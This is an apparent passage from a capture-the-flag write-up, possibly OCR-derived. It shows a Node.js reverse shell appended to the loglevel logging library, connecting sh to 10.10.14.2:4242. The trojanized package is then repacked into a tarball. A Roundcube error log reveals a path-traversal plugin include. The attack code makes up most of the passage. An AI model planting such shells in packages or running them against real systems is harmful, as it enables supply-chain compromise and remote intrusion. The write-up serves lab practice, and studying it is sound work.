 ```
        }

        return defaultLogger;
    };

    defaultLogger.getLoggers = function getLoggers() {
        return _loggersByName;
    };

    // ES6 default export, for compatibility
    defaultLogger['default'] = defaultLogger;

    return defaultLogger;
}));
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.10.14.2", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

Create the new ```gunzip tarball```:
```
kavi@seventeen:~/repack$ tar -cvzf package.tgz package 
package/
package/dist/
package/dist/loglevel.min.js
package/dist/loglevel.js
package/CONTRIBUTING.md
package/package.json
package/bower.json
package/lib/
package/lib/loglevel.js
package/lib/.jshintrc
package/.github/
package/.github/FUNDING.yml
package/.editorconfig
package/_config.yml
package/Gruntfile.js
package/.travis.yml
package/LICENSE-MIT
package/index.d.ts
package/.jshintrc
package/test/
package/test/manual-test.html
package/test/global-integration.js
package/test/test-qunit.html
package/test/method-factory-test.js
package/test/get-current-level-test.js
package/test/integration-smoke-test.js
package/test/cookie-test.js
package/test/vendor/
package/test/vendor/json2.js
package/test/global-integration-with-new-context.js
package/test/multiple-logger-test.js
package/test/type-test.ts
package/test/test-context-using-apply.js
```

[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)
